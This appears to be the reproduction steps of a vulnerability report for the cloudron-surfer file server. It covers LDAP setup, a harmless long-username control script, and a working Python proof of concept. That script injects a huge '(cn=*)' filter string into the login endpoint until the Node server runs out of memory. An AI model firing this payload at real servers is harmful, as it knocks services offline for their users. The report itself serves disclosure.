 - start the `surfer` app locally (we need to setup some enviroment variables to enable the LDAP authentication):
    - `CLOUDRON_LDAP_BIND_DN="cn=admin,ou=users,dc=example" CLOUDRON_LDAP_BIND_PASSWORD="password" CLOUDRON_LDAP_USERS_BASE_DN="ou=users,dc=example" CLOUDRON_LDAP_URL="ldap://localhost:3002" node node_modules/cloudron-surfer/server.js`

Before performing the attack let's first check that everything works as expected:
- visit `http://localhost:3000/_admin/`
- enter `normal` and `test` respectively in the `username` and `password` fields and the click enter
- logout 

Before performing the attack let's first check that everything works as expected even with a long value for `username`:
- visit `http://localhost:3000/_admin/`
- run the following `python` script (`run_safe.py`):

```python
import requests

url = 'http://localhost:3000/api/login'

payload =  "a"*(len("*)") + len("(cn=*)")*700000 + len("(cn=*"))

print(f"Payload's length: {len(payload)} characters")

data = {
    'username': payload,
    'password': 'pass'
}

response = requests.post(url, data = data)
```

- enter `normal` and `test` respectively in the `username` and `password` fields and the click enter
- logout 

Reproduce the attack:
- visit `http://localhost:3000/_admin/`
- run the following `python` script (`run.py`):

```python
import requests

url = 'http://localhost:3000/api/login'

payload = "*)" + "(cn=*)"*700000 + "(cn=*"

print(f"Payload's length: {len(payload)} characters")

data = {
    'username': payload,
    'password': 'pass'
}

response = requests.post(url, data = data)
```
- the page will load until the server crashes. After some time you will get the following error:
`FATAL ERROR: Ineffective mark-compacts near heap limit Allocation failed - JavaScript heap out of memory`
